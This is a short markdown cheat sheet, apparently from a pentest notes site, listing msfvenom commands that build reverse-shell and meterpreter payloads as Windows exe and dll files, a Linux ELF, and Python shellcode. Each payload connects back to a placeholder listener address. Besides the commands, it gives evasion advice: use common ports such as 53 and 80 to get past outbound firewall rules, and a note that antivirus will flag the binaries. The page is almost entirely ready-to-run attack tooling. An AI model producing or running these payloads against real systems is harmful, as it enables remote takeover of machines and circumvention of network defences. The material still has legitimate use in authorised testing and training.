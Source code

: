 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["metasploit", "shellcode", "revshell", "msfconsole", "msfvenom"]
---
```


### Generate Shellcode

<small>*Note: stageless payload can catch with nc directly*</small>

#### Windows x64

{{< tab set1 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set1 tab2 >}}Stageless exe{{< /tab >}}
{{< tab set1 tab3 >}}Staged dll{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

</div>

{{< /tabcontent >}}

#### Windows x86

{{< tab set2 tab1 active >}}Staged exe{{< /tab >}}
{{< tab set2 tab2 >}}Stageless exe{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
# Staged
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.exe
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```console
# Stageless
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> EXITFUNC=thread > rev.exe
```

</div>

{{< /tabcontent >}}

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, <LOCAL_PORT> to bypass firewall outbound rules*</small>

#### Linux amd64

{{< tab set3 tab1 active >}}Stageless elf{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f elf > rev.elf
```

</div>

{{< /tabcontent >}}

#### Others

{{< tab set4 tab1 active >}}Staged python{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```console
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>
```

</div>

{{< /tabcontent >}}

<br>